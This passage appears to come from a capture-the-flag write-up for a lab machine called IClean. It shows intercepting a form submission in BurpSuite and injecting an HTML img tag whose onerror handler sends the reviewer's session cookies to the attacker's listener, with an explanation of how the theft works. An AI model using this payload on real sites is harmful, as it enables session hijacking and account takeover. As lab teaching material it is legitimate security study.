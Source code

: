 To check for vulnerabilities, we'll intercept the request via BurpSuite and manipulate it in the repeater.

We see there's an email field and several service fields depending on the options we select. Let's try to insert a malicious HTML tag to attempt to steal the session cookies from the team reviewing the request.

![xss through burpsuite](../../img/IClean/xss-payload.png)

The payload shown above is the following, but to send it as a POST field, it must be URL-encoded. In BurpSuite, select the payload and press `ctrl`+`u`.

```html
<img src="err" onerror="fetch(`http://10.10.14.124:1234/?${document.cookie}`)" />
```

---

**What does this payload do?**

*Assuming that the `service` and `email` fields will be displayed to the reviewer in a browser, if they aren't properly sanitized, an HTML tag could be interpreted instead of being shown as plain text.*

*That's where our payload comes in. The browser will try to load an `<img />` tag with the URL "err," which will fail since there is no image called "err" in the current directory (hopefully).*

*Upon failure, the `onerror` of the tag will trigger, sending a GET request to our machine with the victim's cookies as parameters. We will then receive them and attempt to log in as that user.*

---
